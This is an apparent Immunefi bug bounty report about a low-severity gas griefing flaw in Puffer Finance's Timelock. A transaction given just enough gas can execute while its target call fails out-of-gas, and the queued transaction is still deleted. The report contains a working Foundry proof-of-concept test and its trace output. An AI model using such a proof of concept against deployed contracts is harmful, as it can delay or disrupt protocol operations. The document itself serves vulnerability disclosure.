 # 28623 - \[SC - Low] Timelock transaction that consume more then \_ g...

Submitted on Feb 22nd 2024 at 17:00:05 UTC by @OxDEADBEEF for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28623

Report type: Smart Contract

Report severity: Low

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:

* Contract fails to deliver promised returns, but doesn't lose value
* Temporary freezing of funds for at least 1 hour
* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

The timelock's `executeTransaction` does not validate that it has enough gas to execute the underlying transaction. Because of eip-150's `63/64` gas rule - transactions that need more then `209_595` gas to execute can fail due to out of gas while the parent transaction transaction has enough gas (1/64) to successfully finish the transaction

## Vulnerability Details

`executeTransaction` calls the `target` with the `callData`.

```solidity
    function executeTransaction(address target, bytes calldata callData, uint256 operationId)
        external
        returns (bool success, bytes memory returnData)
    {
--------------
        queue[txHash] = 0;
        (success, returnData) = _executeTransaction(target, callData);

        emit TransactionExecuted(txHash, target, callData, operationId);

        return (success, returnData);
    }
    
function _executeTransaction(address target, bytes calldata callData) internal returns (bool, bytes memory) {
        // slither-disable-next-line arbitrary-send-eth
        return target.call(callData);
    }
```

As can be seen above - After calling the target, not much gas is needed to finish the transaction. After EIP-150 the EVM reserves 1/64 of the gas consumed target so that `executeTransaction` can finish the transaction. As seen in the POC - the minimum amount of gas target needs to consume in order to leave enough gas for the transaction to succeed is `209_595`.

If target needs more then that - the target can fail due to out of gas while the `executeTransaction` and the transaction will be deleted from the queue:

1. `executeTransaction` is called with `214_640` gas.
2. `target` consumes all `209_595` gas and runs out
3. Upper transaction did not revert and `queue[txHash] = 0;` .

I suggest to check after the call to target if there is more then needed gasleft

## Impact Details

When the `OPERATIONS_MULTISIG` calls `executeTransaction` to execute a long waited transaction it can by mistake or maliciously set the exact gas needed for `executeTransaction` to succeed but the underlying call to target will fail.

This means that the transaction would need to be listed again in the timelock. If the call to target resolves around movement of funds or any other critical operation - it will be delayed

## Proof of Concept

Add the following function to `Timelock.t.sol`

```solidity
    function gasConsumingFunc() external {
        uint256 gasToConsume = 209595;
        uint256 gasStart = gasleft();
        for(uint256 i = 0; gasStart - gasleft() < gasToConsume; i++ ) {
            assembly {
                let x := mload(0x1337)
            }
        }
    }
    function test_execute_fails() public {
        vm.startPrank(timelock.OPERATIONS_MULTISIG());

        bytes memory callData = abi.encodeCall(this.gasConsumingFunc, ());

        uint256 operationId = 1234;

        bytes32 txHash = timelock.queueTransaction(address(this), callData, operationId);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        
        vm.warp(lockedUntil + 20);

        uint256 gasToUse = 214_640;
        timelock.executeTransaction{gas: gasToUse}(address(this), callData, operationId);
    }
```

To run the test:

```
forge test --match-test test_execute_fails -vvvv
```

Expected output:

```
[PASS] test_execute_fails() (gas: 236021)
Traces:
  [236021] TimelockTest::test_execute_fails()
    ├─ [227] Timelock::OPERATIONS_MULTISIG() [staticcall]
    │   └─ ← operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6]
    ├─ [0] VM::startPrank(operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6])
    │   └─ ← ()
    ├─ [29140] Timelock::queueTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ emit TransactionQueued(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234, lockedUntil: 604802 [6.048e5])
    │   └─ ← 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d
    ├─ [404] Timelock::delay() [staticcall]
    │   └─ ← 604801 [6.048e5]
    ├─ [0] VM::warp(604822 [6.048e5])
    │   └─ ← ()
    ├─ [214640] Timelock::executeTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
    │   ├─ emit TransactionExecuted(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234)
    │   └─ ← false, 0x
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```

As can be seen the transaction succeeds while `gasConsumingFunc` fails

```
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
---------
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```
